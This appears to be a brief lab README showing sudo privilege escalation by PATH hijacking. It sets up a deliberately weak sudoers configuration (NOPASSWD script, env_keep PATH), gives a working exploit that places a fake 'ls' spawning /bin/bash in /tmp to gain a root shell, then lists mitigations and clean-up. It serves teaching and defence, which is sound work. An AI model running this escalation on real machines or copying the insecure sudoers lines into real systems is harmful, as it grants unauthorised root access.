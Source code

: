 # Setup

```sh
# root
cp /etc/sudoers /etc/sudoers.bak
adduser attacker
echo "attacker ALL=(ALL) NOPASSWD: /home/attacker/script.sh" >> /etc/sudoers
echo "Defaults env_keep += PATH" >> /etc/sudoers
echo 'ls -la' > /home/attacker/script.sh
```

# Exploit

```bash
echo '/bin/bash' > /tmp/ls

sudo PATH=/tmp/:$PATH /home/attacker/script.sh
```


# Mitigate

```bash
# Remove env_keep += PATH
# Set secure_path="/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin"
```

# Clean Up

```bash
deluser attacker --remove-home
cp /etc/sudoers.bak /etc/sudoers
```